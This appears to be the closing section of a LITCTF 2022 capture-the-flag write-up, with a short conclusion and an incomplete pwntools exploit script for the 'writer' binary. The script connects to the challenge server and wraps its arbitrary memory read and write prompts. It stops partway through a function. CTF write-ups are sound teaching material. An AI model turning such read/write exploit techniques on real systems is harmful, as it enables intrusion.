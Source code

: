 ## Conclusion

This was a fun challenge that required some creativity. Kudos to the challenge author, Rhythm, and the rest of the team that organized LITCTF 2022!

## Exploit

Here's the final exploit. Some extra scaffolding was added.
```Python
#!/usr/bin/python3

from pwn import *

exe = ELF("./writer")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.terminal = ["xfce4-terminal", "--execute"]
context.binary = exe
args.LOCAL = False
args.DEBUG = True

def conn():
	if args.LOCAL:
		tempsock = process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
		gdb.attach(tempsock, '''
            ''')
		return tempsock
	else:
		return remote("litctf.live", 31790)
sock = conn()
#goes through the read part of the target without inputting anything:
def useless_read() :
    sock.sendlineafter("From where?", str(0x0404028))
    sock.recvuntil("Here is what's there:\n")
#reads an integer from an addr:
#takes the addr in hex
#must be called at the beginning of the sequence:
def read_int(addr):
    sock.sendlineafter("From where?", str(addr))
    sock.recvuntil("Here is what's there:\n")
#writes an integer to an addr
#must be called after useless_read or regular read has been invoked
#takes all args as hex addrs
def write_int(addr, content) :
    sock.sendlineafter("To where?", str(addr))
    sock.sendlineafter("What?", str(content))
#goes through the write part of the target without writing anything:
#must be called after a read function has been called
def useless_write() :
    sock.sendlineafter("To where?", "f")
    sock.sendlineafter("What?", "f")
#goes through the part where feedback is requested without doing much
#must be called after a write function is called
def useless_feedback() :
    sock.sendlineafter("challenge?", "b")
#cleaner response to the prompt at the end
def feedback(contents) :
    sock.sendlineafter("challenge?", contents)
#writes an address to an arbitrary location
#takes the address in hex
def write_addr(location, addr) :
    useless_read()
```